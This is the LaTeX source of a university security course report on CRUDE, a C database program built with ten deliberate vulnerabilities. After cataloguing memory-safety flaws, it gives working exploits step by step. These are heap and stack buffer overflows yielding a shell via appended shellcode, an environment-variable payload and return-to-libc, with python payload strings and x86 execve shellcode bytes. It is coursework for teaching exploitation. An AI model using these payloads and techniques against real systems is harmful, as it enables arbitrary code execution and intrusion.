%-------------------------------------------------------------------------------
%	NAME:	report.tex
%	AUTHOR: Luke Healy - 17086424
%	LAST MOD: 01/04/17
%	PURPOSE:	AMI Search Assignment Report
%	REQUIRES:	NONE
%-------------------------------------------------------------------------------

\documentclass[]{article}
\usepackage[ margin=3cm ]{geometry}
\usepackage{graphicx}
\usepackage{fancyhdr}
\usepackage{float}
\usepackage{hyperref}
\usepackage{transparent}
\usepackage{pdfpages}
%\usepackage[style=chicago-authordate,backend=biber]{biblatex}
\usepackage{algorithmicx}
\usepackage{algpseudocode}
\usepackage{amssymb}
\usepackage{courier}
\usepackage{color}

\pagestyle{fancy}
\fancyhf{}
\lhead{Luke Healy - 17086424}
\rhead{ISEC3004}
\lfoot{Oct 2017}
\rfoot{\thepage}

\pagenumbering{arabic}

%\addbibresource{references.bib}

%\nocite{*}

%-------------------------------------------------------------------------------
\begin{document}

%\nocite{*}
%-------------------------------------------------------------------------------
% OFFICIAL COVER PAGE

\includepdf[pages={1}]{assignment-cover-sheet1.pdf}
%-------------------------------------------------------------------------------
% TITLE PAGE

\begin{titlepage}
	\begin{center}
		\vspace*{1cm}
		\LARGE\textbf{ISEC3004 Report} \vspace{0.5cm}
		\break
	    CRUDE - The vulnerable crud application and how to exploit it.
		\vspace{1cm}
		\break
		\Large\textbf{Luke Healy - 17086424} 
		\vspace{13cm}

		\normalsize
		Curtin University \\
		Science and Engineering \\
		Perth, Australia \\
	    Oct 2017
	    
	\end{center}
\end{titlepage}

%-------------------------------------------------------------------------------

\vspace*{-0.8cm}
\begin{center}
	\section*{Overview}
\end{center}

\vspace*{0.8cm}
\subsection*{Introduction}
This report details design and use of \textit{CRUDE}, a create/read/update/delete application. The application is intentionally vulnerable, and has many specific flaws programmed into it. This report will outline each of the flaws, and where possible, show how the flaws can be exploited.
	
\subsection*{The Program}
\textit{CRUDE}, (Create/Read/Update/Delete/Exploit) is a simple employee database management program.
It uses a csv file to store the database to the disk. It provides the following functionality:

\begin{enumerate}
	\item \textbf{Change password.} The user can change their password for the delete function.
	\item \textbf{Load database.} Loads a databse from file.
	\item \textbf{Display Employee.} Prints an employee to the screen, given the ID.
	\item \textbf{Add Employee.} Adds a new employee to the database. The details are specified by the user.
	\item \textbf{Edit Employee.} Edits an existing employee, the user specifies the new data and the ID of the employee to edit.
	\item \textbf{Delete Employee.} Sets an employees deleted flag to 1.
	\item \textbf{Save Database.} Writes the database to the file specified by the user.
	\item \textbf{Discard Changes.} Reverts a database back to what it was before changes were made.
	\item \textbf{Unload DataBase.} Removes the database from memory.
	\item \textbf{Exit.} Exits the program.
\end{enumerate}

The prorgram presents a main menu to the user, then performs the desired function continuously until the user elects to exit.

\subsection*{Vulnerabilities}
There are a total of 10 vulnerabilities in the program. They are as hidden as possible, given the simplicity of the program. There was a neccessity to add extra functionality (Discard changes and Unload database) in order to have a large enough surface to introduce a localised vulnerability. There was also a neccessity to make the code complicated, convoluted and naive for the same reason. All vulnerabilities were successfully implemented. The next section outlines them in the code, and where possible, how to exploit them.
\pagebreak

\begin{center}
	\section*{Breakdown of vulnerabilities and exploits.}
	\end{center}

\vspace*{0.8cm}
\subsection*{Memory leaks}
\begin{enumerate}
	\item In function \texttt{update\_employee} (\textbf{db\_handler.c:169}), the \texttt{backup} variable, a pointer to an \texttt{employee} is not freed if the \texttt{employee*} given to \texttt{update\_employee} is \texttt{NULL}. This is because the function checks for \texttt{NULL} and immediatly returns.
	\item In function \texttt{save\_db} (\textbf{db\_handler.c:317}), the \texttt{sd} variable is not freed when the\\\texttt{write\_to\_file} function is not successful. The programmer freed it at the end of the function, but not in the branch of code which executes if writing to the file fails.
	\item In function \texttt{confirm\_with\_user} (\textbf{db\_handler.c:634}), the \texttt{verdict} string is not freed if the user exceeds the maximum tries before the function defaults to return false. The programmer forgot to free the variable in that particular branch of execution.
\end{enumerate}

\subsection*{Double free causing crash}
In the function \texttt{unload\_database} (\textbf{db\_handler.c:60}), the \texttt{backup\_list} variable is freed as it is no longer needed, and will be reset when the next database is loaded. The problem is, the programmer didn't check to see if the next database had actually been loaded yet, meaning if a database is loaded, then unloaded \textit{twice}, the program will crash due to the double free. Although  double free causes "undefined" behaviour, in the testing done, a crash always occurs under the described conditions.

\subsection*{Access after free}
In function \texttt{change\_password}(\textbf{db\_handler.c:417}), the variable \texttt{vault} is freed, as it will be replaced by \texttt{new\_vault}. \texttt{new\_vault} is allocated memory right after the free. The program then prints the old password, and the new one to the user to show the change. Printing \texttt{vault->password}, will print the \textit{new} password, not the old one, as the memory previously just freed is given to \texttt{new\_vault}. This behaviour does not occur when the program is run under valgrind, explaining why the programmer didn't reaslise.

\subsection*{Heap based buffer overflow causing corruption but no crash}
In function \texttt{update\_employee} (\textbf{db\_handler.c:169}), the programmer accidently gave the value of 150, instead of 15 for the number of characters to read for the \texttt{position} field in \texttt{employee}.
Writing more than 15 characters to this buffer will corrupt the next employee in the array. If there is no employee in the next index, the id will still be set to a very large number, scewing any newly generated ID.
If an employee \textit{does} exist in the next index, it will be entirely overwritten with enough input, looking 
something like this:
\\
\\
 \texttt{Employee 1718051187:hjasgdhjfgsadjgfhjasghfgashjkfgjhkasdgfhjgasdjfhkgksda\\
 	hfgsadhjkgfhjksadgfhjkagdshfgjhaksdgfjagsdhjfgasdhjgfjagsdhjfgadsjkgdhjfgs\\
 	adjgfhjasghfgashjkfgjhkasdgfjgasdjfhkgksdahfgsadhjkgfhjksadgfhjkagdshfgjha\\
 	ksdgfjagsdhjfgasdhjgfjagsdhjfgadsjkshjkfgjhkasdgfhjgasdjfhkgksdahfgsadhjkg\\
 	fhjksadgfhjkagdshfgjhaksdgfjagsdhjfgasdhjgfjagsdhjfgadsjk, gsadhjkgfhjksad\\
 	gfhjkagdshfgjhaksdgfjagsdhjfgasdhjgfjagsdhjfgadsjk. Salary: \$1802135654. \\
 	Deleted: 1935959905}
 \\
 \\
Doing this will not cause the program to crash. The input while too much, is limited to 150 characters, meaning that the data can only go $(150 - 15 - sizeof(int) - sizeof(int))$ bytes past the array. As the array is malloc'd first, it is at the start of the heap. While this may differ on some systems, the two in which I tested the code on acted as described. 

\subsection*{Heap based buffer overflow causing crash}
In the function \texttt{exit\_program} (\textbf{db\_handler.c:478}), a string is read from the user and stored in the variable \texttt{quit}. The string is assigned a value in the following fashion: \texttt{scanf("\%s", quit);}. This is clearly vulnerable as it does not check the bounds of the input. The variable is then compared to the string literal \texttt{"quit"} like so: \texttt{strncmp(quit, "quit", 4);}. This means that if more than just "quit" is written to the buffer, you usually won't notice. You must write a huge amount of data to the \texttt{quit} buffer in order to crash the program, as you need to traverse the entire heap and breach the programs segment. If you don't write enough to crash immediatly, there is a high chance that other data on the heap will become corrupt, likely causing a crash later.

\subsection*{Stack based buffer overflow causing crash}
In the function \texttt{discard\_changes} (\textbf{db\_handler.c:78}), the string \texttt{discard} is used to store the users decision as to whether or not they want to discard changes to the database. There is some confusion in the code because \texttt{discard} has space for 2 characters, e.g \texttt{\{'y','\textbackslash0'\}}, but the programmer reads in 4 characters, e.g \texttt{\{'y','e','s','\textbackslash0'\}}. They then compare just the first character to \texttt{"yes"} like so: \texttt{strncmp("yes", discard, 1)}. This works fine if the user enters either "y" or "yes". The reason this can cause a crash is because on the stack, right after \texttt{discard} is the index variable \texttt{num\_emp} which is used in \texttt{memcpy} as the buffer size a few lines later. If you write 4 characters to \texttt{discard}, of high enough ascii value, you will overwrite the \texttt{num\_emp} variable with a high value, (greater than 999, the size of the employee array), which will then cause \texttt{memcpy} to crash when it tries to write way further than it should.

\subsection*{Heap based buffer overflow causing arbitrary code execution}
In function \texttt{save\_db}, the struct \texttt{sd} contains information regarding the behaviour of \texttt{save\_db}. This includes a \texttt{file\_path}, and a function pointer \texttt{func}, which points to either the \texttt{write\_to\_file} or \texttt{write\_to\_screen} function. The scanf statement which reads the \texttt{file\_path} from the user is not bounds checked. This means that we can overrun the buffer for the \texttt{file\_path}, and overwrite the function pointer to point to our own shellcode.
There are three very good options here:
\begin{enumerate}
	\item One can append the shellcode to the payload string, and jump to it by adding one word size to the address of the \texttt{sd->func} variable. (Plus 4 in our case).
	\item One can store the payload in an environment variable on the stack, and jump to it. Finding this address is very easy, you simply print the stack out and look for the string.
	\item One can find the address of the \texttt{system} function in \texttt{libc}, and jump to it. The only tricky part here is that because we're not on the stack, specifying arguments for \texttt{libc} (i.e "\texttt{/bin/sh}") can be difficult. It seems to default to the second address on the heap, who knows why?
\end{enumerate} 
 \\
For this exercise, we will append the shellcode to the payload string. These are the steps that were taken.

\begin{enumerate}
	\item Run crude through gdb with a break at \texttt{save\_db}. Run through the program until it hits the save\_db breakpoint.
	\item Step through the function until we get to the vulnerable scanf.
	\item Print \texttt{sd-$>$func} to see what the function pointer points to, so we can verify that it has changed when we overflow the buffer.
	\item Print the addresses of \texttt{sd-$>$func} and \texttt{sd-$>$file\_path} to ensure they are organised how we think they are. Sure enough, \texttt{sd-$>$func} is 256 words above \texttt{sd-$>$file\_path}. This means we need to write 256 characters to the buffer, then the new jump address, then the shellcode.
	\item Record the new jump address (\&(\texttt{sd-$>$func}) + 4).
	\item Construct the payload. The first part is to interact with the program, to get to \texttt{save\_db}. Then the \textcolor{blue}{buffer overflow}, then the \textcolor{red}{new jump address}, and finally the \textcolor{orange}{shellcode}.
	\\
	\\
	\texttt{python -c "'1{\textbackslash}ntest.csv{\textbackslash}n6{\textbackslash}n' + \textcolor{blue}{256 * 'a'} + \textcolor{red}{'{\textbackslash}x54{\textbackslash}x19{\textbackslash}x06{\textbackslash}x08'} +\\ \textcolor{orange}{'{\textbackslash}x31{\textbackslash}xc0{\textbackslash}x50{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x2f{\textbackslash}x73{\textbackslash}x68{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x62{\textbackslash}x69{\textbackslash}x6e{\textbackslash}x89{\textbackslash}xe3{\textbackslash}x50\\{\textbackslash}x53{\textbackslash}x89{\textbackslash}xe1{\textbackslash}x31{\textbackslash}xd2{\textbackslash}x83{\textbackslash}xc0{\textbackslash}x5b{\textbackslash}x83{\textbackslash}xe8{\textbackslash}x50{\textbackslash}xcd{\textbackslash}x80{\textbackslash}x0a'}}
	\\
	\item Lets test it. This time we run crude through gdb, feeding it the file as input. \texttt{run $<$ heap.txt}
	\item Step through the \texttt{save\_db} function again, and print\texttt{ sd-$>$func} right before, then right after the payload has been delivered, to ensure we hit the right addresses. Sure enough, we were spot on.
	\item Continue execution and see what happens. 
	\\
	\\
	\texttt{(gdb) c\\
		Continuing.\\
		process 2329 is executing new program: /bin/dash}
	\\
	\\
	Excelent, /bin/dash is the binary that /bin/sh links to.
	\item Now we need to hook up an interactive terminal. Create a fifo pipe and direct the file into it.
	\\\\
	\texttt{mkfifo sin; (cat heap.txt; cat) > sin}
	\\
	\\
	In another terminal, run crude through gdb, giving the fifo as the input file: \texttt{run < sin}.\\
	Type \texttt{ls} into the terminal being read by \texttt{sin}.\\
	
	\texttt{process 2349 is executing new program: /bin/dash\\
		LICENSE  Makefile  README.md  crude  doc  resources  sin  src  test.csv}
	\\
	\\
	Success!
	
\end{enumerate}
\subsection*{Stack based buffer overflow causing arbitrary code execution}
In the function \texttt{authenticate\_user}(\textbf{db\_handler.c:673}), the string password has a buffer size of only 9 characters. This is because password are limited to 8 characters on this system. The scanf statement which reads data from the user and stores it in password is not bounds checked. As password is on the stack, this will be the classic stack smash. The vulnerability was exploited successfully in 3 ways.
\begin{enumerate}
	\item Payload in input string.
	\item Payload in environment variables.
	\item Return to libc.
\end{enumerate}

\subsubsection*{Payload in input string}
This exploit is fairly straight forward. It is similar to the heap based exploit in that we overwrite a jump address with the address of shellcode, appended to the input string. The following steps were taken to gain code execution. 
\begin{enumerate}
	\item Run crude through gdb, with a break at \texttt{authenticate\_user}. Step through until we get to the vulnerable scanf statement.
	\item Print the return address of the current stack frame using the \texttt{info frame} command.
	\item Next we need to figure out how much data to write to the buffer in order to align with the return address. This was done by trial and error, writing a's to the string and printing the stack frame. It turns out we needed 17 bytes to reach the return address.
	\item Next we need to know the address to jump to. This can easily be supplied by gdb. We simply print the stack like so: \texttt{x/32x \$esp}. We can then look for the return address, and take note of the address which it is stored at.
	\item The last preparation we need to make is to record the address located at the word before the return address. This is the previous stack frame pointer (PSFP). If this address becomes corrupt, the program will crash before execution reaches the return address.
	\item Now that we know the address to jump to, where to write it and the PSFP, we can build our input string as follows: Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{PSFP}, \textcolor{orange}{new return address}, \textcolor{green}{shellcode}.\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{17 * 'a'} + \textcolor{red}{'{\textbackslash}xf4{\textbackslash}xf6{\textbackslash}xff{\textbackslash}xbf'} + \textcolor{orange}{'{\textbackslash}x17{\textbackslash}xa0{\textbackslash}x04{\textbackslash}x08'} + \textcolor{green}{'{\textbackslash}x31{\textbackslash}xc0{\textbackslash}x50{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x2f{\textbackslash}x73{\textbackslash}x68{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x62{\textbackslash}x69\\{\textbackslash}x6e{\textbackslash}x89{\textbackslash}xe3{\textbackslash}x50{\textbackslash}x53{\textbackslash}x89{\textbackslash}xe1{\textbackslash}x31{\textbackslash}xd2{\textbackslash}x83{\textbackslash}xc0{\textbackslash}x5b{\textbackslash}x83{\textbackslash}xe8{\textbackslash}x50{\textbackslash}xcd{\textbackslash}x80{\textbackslash}x0a'"} $>$ stack1.txt}
	\\
	\\
	\item If we now run the code through gdb, giving stack1.txt as the input file through a fifo pipe like in the heap exploit, we can test to see if we have a shell. \texttt{ls} gives us the correct output.
	\\\\
	\texttt{process 1964 is executing new program: /bin/dash\\
		LICENSE  Makefile  README.md  crude  doc  resources  sin  src  test.csv}
	\\\\
	Success!
\end{enumerate}
\subsubsection*{Payload in environment variable}
This one is very similar to the previous, only instead of jumping just past the return address to the shellcode, we jump up to the top of the stack to an environment variable.

\begin{enumerate}
	\item In order to put the shellcode in an environment variable, one can simply export it like so:\\
	
		\texttt{export CODE=`python -c "'<shellcode>'"`}\\ 

	This will put the shellcode in a variable called CODE. In order to find the address required, one can simply print the stack in gdb like so: \texttt{x/500s \$esp}. If you put a break point in main, you will definitely get the environment to print in the first 500 words. It looks something like this.
	\\
	\\
	 \texttt{
	 	0xbfffff7f:	 "LESSOPEN=| /usr/bin/lesspipe \%s"\\
	 	0xbfffff9f:	 "CODE=1\300Ph//shh/bin\211\343PS\211\341\061҃\300[\203\350P̀"\\
	 	0xbfffffc2:	 "LESSCLOSE=/usr/bin/lesspipe \%s \%s"\\
	 	0xbfffffe4:	 "/home/ccsep/CRUDE/crude"\\
	 	0xbffffffc:	 ""\\
	 	0xbffffffd:	 ""\\}
	\\
	\item We then need to add enough to the address printed, in order to skip the name and "=" sign. In this case we add 5 to 0xbfffff9f, giving 0xbfffffa4.\\
	Once we have the required addresses, we can construct the exploit string like so: Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{PSFP}, \textcolor{orange}{new return address}.\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{17 * 'a'} + \textcolor{red}{'{\textbackslash}xd8{\textbackslash}xf6{\textbackslash}xff{\textbackslash}xbf'} +\\ \textcolor{orange}{'{\textbackslash}xa4{\textbackslash}xff{\textbackslash}xff{\textbackslash}xbf'}" $>$ stack2.txt}
	\\
	\item Lets test it with the fifo pipe and \texttt{ls}.\\\\
	\texttt{process 2121 is executing new program: /bin/dash\\
	LICENSE  Makefile  README.md  crude  doc  resources  sin  src  test.csv}
	\\\\
	Success again!
\end{enumerate}
\subsubsection*{Return to libc}
The third technique is useful because it can bypass the Data Execution Prevention (DEP) feature of modern systems. The aim here is to use libc to fork a new process that we define. The steps to do so are as follows:
\begin{enumerate}
	\item Aquire the address of \texttt{system} in libc. There are enumerable ways to do this, you can simply tell gdb to \texttt{print system} and it will give you the address of the function, assuming it is included in the program. Another way is to use \texttt{ldd} and \texttt{nm}.
	\item If we are going to call \texttt{system}, we need to give it a parameter, the name of the program we want to execute. "/bin/sh" is generally a good option here. This means somewhere in the program running, we need to have the string "/bin/sh". We could store it in an environment variable, but looking at the source code for libc's \texttt{system}, they conveniently have the string hardcoded. To get the address, gdb has a very nifty function called find. \texttt{find \&system,+10000000,"/bin/sh" } yeilds the address \texttt{0xb7f8d6a0}.
	\item The idea of this exploit is to remake the stack so that it calls \texttt{system} as it would if it was in the code. This means we will overwrite the return address with the new jump address to get to \texttt{system}, then specify a placeholder return address which it will jump back to, then specify the parameters for \texttt{system}. This is how we can construct the exploit string. Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{jump address of \texttt{system} in libc}, \textcolor{orange}{placeholder return address}, \textcolor{green}{address of "/bin/sh" to be passed to \texttt{system}}.
	\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{21 * 'a'} + '\textcolor{red}{{\textbackslash}xb0{\textbackslash}x90{\textbackslash}xe6{\textbackslash}xb7}' + '\textcolor{orange}{bbbb}' + '\textcolor{green}{{\textbackslash}xa0{\textbackslash}xd6{\textbackslash}xf8{\textbackslash}xb7}'" > resources/stack3.txt}
	\\
	\item Let's test this with our usual fifo pipe acting as the input stream. This is for more than convenience here, it's neccessary as when \texttt{system} forks (or clones) our new /bin/sh process, the process will try and read from stdin. In doing so, the process will receive a SIGTTIN and will exit, as it isn't allow to read from stdin unless it is the foreground process, which it isn't. Let's also place a breakpoint in \texttt{system} to ensure we actually get there.\\
	\\
	\texttt{Enter password:\\
		Breakpoint 1, \_\_libc\_system (line=0xb7f8d6a0 "/bin/sh") at \\../sysdeps/posix/system.c:179}\\\\
Excellent, we've successfully called \texttt{\_\_libc\_system} with "/bin/sh" as the parameter. Let's continue.\\\\
\texttt{(gdb) c\\
	Continuing.\\
	crude  doc  LICENSE  Makefile  README.md  resources  sin  src  test.csv}
\\
\\
Success! But we're not done yet.
\item After exiting the shell, we can see the following:\\\\
\texttt{Program received signal SIGSEGV, Segmentation fault.\\
	0x62626262 in ?? ()}\\
\\
We can leverage the fact that we are able to specify the return address of \texttt{system}. Instead of a placeholder of "bbbb", we can specify the address of \texttt{exit}. This will allow us to exit the process cleanly without causing a segfault, giving us a better chance of going undetected. We can get the address of \texttt{exit} in the same way as \texttt{system}.
\item Let's run it again with the address of \texttt{exit} as the return address for \texttt{system}.\\\\
\texttt{crude  doc  LICENSE  Makefile  README.md  resources  sin  src  test.csv\\
	>>> [Inferior 1 (process 2459) exited normally]}
\\
\\
Success!

\end{enumerate}

\subsection*{The shellcode}
The shellcode used in these demo's is all the same piece. It is from practical 5 and simply calls \texttt{execve}, passing it "/bin/sh".

\pagebreak
\begin{center}
	\section*{Appendix 1}
\end{center}

%-------------------------------------------------------------------------------   
% REFERENCES

\break
\setlength\itemsep{4\itemsep}
%\printbibliography[title={References}]

%-------------------------------------------------------------------------------
\end{document}   
%-------------------------------------------------------------------------------